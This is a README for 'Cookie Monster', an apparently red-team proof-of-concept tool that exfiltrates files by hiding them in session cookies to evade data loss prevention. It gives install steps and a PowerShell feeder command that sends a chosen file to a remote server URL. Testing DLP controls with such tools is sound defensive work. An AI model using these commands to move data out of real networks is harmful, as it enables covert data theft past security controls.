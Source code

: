 # Cookie Monster

![alt text](https://github.com/ProfessionallyEvil/cookie-monster/blob/main/CookieMonster.png?raw=true)

## What is Cookie Monster?

Cookie Monster is a proof-of-concept data exfiltration tool. The basic premise behind it is hiding sensitive data in plain sight, within session cookies in web traffic, to evade detection by data loss prevention solutions. It consists of a two parts, a _feeder_ client run from within the target's network, and a _server_ for capturing the feeder's request and reassembling the data.

## Is this a hacking tool?

It can be used to transfer files, however it's a fairly immature, barebones implementation. In it's current form, it's better suited to testing the defensive controls than it is for an significant, malicious activity.

## Installation
The server can be installed by the following command on a system with Node (the current codebase has been primarily tested on Node 18, but some earlier versions should work) `npm install --global @professionallyevil/cookie-monster-exfil`

You will also need a feeder, which can be found attached to the [releases](https://github.com/ProfessionallyEvil/cookie-monster/releases/tag/v2.0.3) on this repo. 

## Usage
### Starting the server
`cookie-monster --out ./outputDir`

### Running the Powershell Feeder 
 1. Import the module: `Import-Module .\CookieMonsterFeeder.ps1`
 1. Send a file with: `Invoke-CMfeed -URL 'https://yourcookiemonsterserver.test' -file .\file.txt`, where the file matches the file you want to send, and the URL is the protocol, hostname, and optionally the port of your server. e.g. `http://127.0.0.1:3000`, `https://professionallyevil.com`.

## Additional Notes
- The core functionality is working, but there is some functionality that is known to be missing. Skim the patch notes (they're concise) for details.
- There's no built-in support for using certificated and TLS directly through this app. If using for actual sensitive data, if is *strongly* recommended that you put it behind a reverse proxy that does support HTTPS, and to only use TLS for it.

## License
Code original to this project is licensed under the MIT license.
Response content colocated with the source code, in the subdirectories of https://github.com/ProfessionallyEvil/cookie-monster/tree/main/src/responses is sourced from public sources inlcuding apache.org, bulma.io, react.com, and purecss.io. This content retains its original licensing and copyrights.
